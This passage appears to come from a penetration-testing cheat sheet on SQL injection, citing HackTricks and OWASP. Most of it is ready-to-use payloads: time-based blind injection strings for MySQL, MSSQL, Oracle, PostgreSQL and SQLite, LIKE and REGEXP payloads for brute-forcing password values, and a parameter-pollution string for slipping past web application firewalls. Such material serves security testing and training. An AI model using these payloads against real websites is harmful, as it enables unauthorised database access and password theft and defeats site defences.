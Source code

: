 <br />

## Blind Injection - Timing

Reference: [HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection#confirming-with-timing)

Using **sleep** method for each query, if results are displayed with a delay, SQLi affects that.

```html
<!-- MySQL -->
test' AND sleep(10)
test ' OR sleep(10)

<!-- MSSQL -->
test' WAITFOR DELAY '0:0:10'

<!-- Oracle -->
test' AND DBMS_SESSION.SLEEP(10)

<!-- PostgreSQL -->
test' AND pg_sleep(10)
test' OR pg_sleep(10)
test' || pg_sleep(10)

<!-- SQLite -->
test' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
```

<br />

## Brute Force Values

```html
' password LIKE '%'-- -
' password LIKE BINARY '%'-- -

' password REGEXP '^[a-z]*'-- -
' password REGEXP BINARY '^[a-z]*'-- -
```

<br />

## WAF Bypass

Reference: [OWASP](https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF)

If website filters to prevent our payloads, we need to bypass the filter.

### HTTP Parameter Pollution

We may inject by splitting the parameter values on the same keys.

```html
/?id='+select+1&id=2,3+from+users+where+id=1-- -
```
